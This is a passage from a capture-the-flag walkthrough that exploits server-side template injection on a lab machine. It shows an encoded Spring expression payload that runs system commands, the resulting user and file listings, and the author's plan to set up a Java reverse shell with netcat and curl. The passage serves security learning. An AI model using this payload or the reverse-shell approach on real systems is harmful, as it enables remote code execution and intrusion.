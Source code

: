 I figured I could write a script to assemble this insane concatenation of characters, but on second thought it was likely someone else had already done so!

A quick google search revealed: https://github.com/VikasVarshney/ssti-payload

I used the above tool to generate a payload to check 'id':

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

This revealed we are running as user woodenk. Thank goodness, we already know they have terminal access and mysql. They are also a member of the logs group.

```
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

I wanted to see if we could nab their ssh key, but instead discovered the user flag. Here is the result of *ls -a /home/woodenk* :

```
. .. .bash_history .bash_logout .bashrc .cache .local .m2 .profile user.txt
```

Maybe I can put an extra file with a reverse shell somewhere in the server..?

Put a pin in that. For now, checking what logs are available:

```
apt auth.log auth.log.1 auth.log.2.gz btmp btmp.1 dist-upgrade dmesg dmesg.0 dmesg.1.gz dpkg.log dpkg.log.1 installer journal kern.log kern.log.1 kern.log.2.gz landscape lastlog mysql private syslog syslog.1 syslog.2.gz syslog.3.gz ubuntu-advantage.log ubuntu-advantage-timer.log vmware-network.1.log vmware-network.2.log vmware-network.log vmware-vmsvc-root.1.log vmware-vmsvc-root.2.log vmware-vmsvc-root.log vmware-vmtoolsd-root.log wtmp
```

Checking the running processes with *ps -e*, nothing of note really.

Is netcat present?

*Yes! it is present! it's at /usr/bin/nc*

I can connect using nc to my attacker box, but can't seem to get a shell... what the heck! Maybe I need to b64 encode it? 

Curl is present, and obviously the target machine can reach out over port 8080 (that the webserver is proxied through), so I can transfer files using curl from my attacker machine to the target machine. And I've verified javac is present on the target machine. **How about setting up a java reverse shell instead?** 

> I would prefer python, or really anything else. But it looks like only java is present on this machine

And... It worked! :happy: 

I did the following to establish the java reverse shell:

Create the file C.java (modified from [here](https://gist.github.com/caseydunham/53eb8503efad39b83633961f12441af0)):
